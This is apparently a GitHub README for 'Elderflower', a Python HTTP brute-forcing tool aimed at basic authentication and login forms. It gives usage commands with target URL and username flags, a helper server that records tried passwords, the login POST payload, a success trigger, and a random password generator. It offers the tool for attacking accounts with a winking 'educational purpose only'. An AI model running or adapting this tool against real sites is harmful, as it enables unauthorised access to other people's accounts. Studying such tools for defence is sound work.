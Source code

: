 # Elderflower v1.0.3
## HTTP(S) bruteforcing tool

Elderflower is a http bruteforcing tool. It can be used to bruteforce basic http authentication.Have fun with it and you all know, for educational purpose only ;)  return
Good luck!
### How to install
Upload the script to your server, adapt the code and run it with python3.




### How to use

#### Usage
##### [Server](server.py)
``` bash
python3 server.py -p [port] -f [file] -v (verbose mode)
```
[file] = file with used passwords
Exapmle:
```bash
python3 server.py -p 4545 -f usedpws.txt -v
```

##### [Elderflower](elderflower.py)
``` bash 
python3 elderflower.py -u [url] -t [username] -s [server] -p [port] -v (verbose mode) 
```
[url] = url of the target
[username] = username to bruteforce
[server] = ip of the server
Exapmle:
``` bash 
python3 elderflower.py -u http://example.com -t JohnDoe -s https://server.com -P 4545 -v
```

#### Addapt the code

##### [bin](bin.py)
The Log files are defined in line 16 & 17.
```python
16  pwLog = 'elderflower.log'               # the found password will be logged here
17  errorLog = 'error.log'                  # errors will be logged here
```

The trigger for the successfull login is defined in line 18.
```python
18  trigger = 'example'                 # trigger for successfull login
```


The payload for the post request is defined in line 24.
```python 
24  payload = {'do':'login', 'user':f'{username}', 'pw':f'{password}'}      # payload for request
```

Passwords are being generated in line 45.
In my case the paswords are 6 characters long. The first character is a random uppercase letter, the next 3 characters are random lowercase letters and the last 2 characters are random digits.

```python
45  def randPW():
46      a = random.choice(uppercase)
47      b = ''.join(random.choice(lowercase) for x in range(3))
48      c = ''.join(random.choice(digits) for x in range(2))
49  
50      password = a+b+c
51      return password
```

